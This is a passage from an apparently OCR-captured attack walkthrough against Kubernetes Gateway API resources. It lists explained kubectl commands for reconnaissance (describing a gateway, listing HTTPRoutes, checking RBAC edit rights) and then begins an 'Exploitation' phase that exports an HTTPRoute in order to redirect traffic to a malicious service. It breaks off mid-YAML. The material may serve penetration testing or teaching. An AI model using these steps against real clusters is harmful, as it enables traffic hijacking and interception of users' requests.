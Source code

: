 ```bash
# 3. Describe a specific Gateway resource to understand its configuration.
kubectl describe gateway my-gateway -n default

# Explanation: This command displays detailed information about the "my-gateway" Gateway resource.
# Expected Output: YAML configuration of the Gateway, including listeners, addresses, and other settings.  Pay attention to the "listeners" section, as this is where traffic is routed.
# Why: To understand the Gateway's configuration, including the services it exposes and the routing rules that are in place.  This is essential for planning the attack.

```

```bash
# 4. Identify related HTTPRoute resources associated with the Gateway.
kubectl get httproute --all-namespaces

# Explanation: This command lists all HTTPRoute resources across all namespaces.
# Expected Output: A list of HTTPRoute resources and their namespaces.  Note the HTTPRoutes that are associated with the target Gateway.
# Why: HTTPRoutes define the actual routing rules. By manipulating these routes, an attacker can redirect traffic.

```

```bash
# 5. Check RBAC permissions for the current user or service account.
kubectl auth can-i get gateways
kubectl auth can-i edit gateways

# Explanation: These commands check if the current user or service account has permission to "get" and "edit" Gateway resources.
# Expected Output: "yes" or "no" for each command.
# Why: To determine if the current user or service account has the necessary permissions to exploit the vulnerability. A "yes" for "edit" indicates a vulnerability.

```

**Phase 2: Exploitation - Redirecting Traffic**

Let's assume the attacker has found an HTTPRoute named `my-httproute` in the `default` namespace that is associated with the `my-gateway` Gateway, and they have `edit` permissions on HTTPRoutes.

```bash
# 6. Get the YAML definition of the target HTTPRoute.
kubectl get httproute my-httproute -n default -o yaml > my-httproute.yaml

# Explanation: This command retrieves the YAML definition of the "my-httproute" HTTPRoute and saves it to a file named "my-httproute.yaml".
# Expected Output: The HTTPRoute's YAML definition is saved to the specified file.
# Why: To examine the HTTPRoute's configuration and prepare for modification.

```

```bash
# 7. Modify the YAML file (my-httproute.yaml) to redirect traffic to a malicious service.
#
# Example: Suppose the original HTTPRoute looks like this:
#
# apiVersion: gateway.networking.k8s.io/v1beta1
# kind: HTTPRoute
# metadata:
#   name: my-httproute
# spec:
#   rules:
#   - matches:
#     - path:
#         type: PathPrefix
#         value: /
```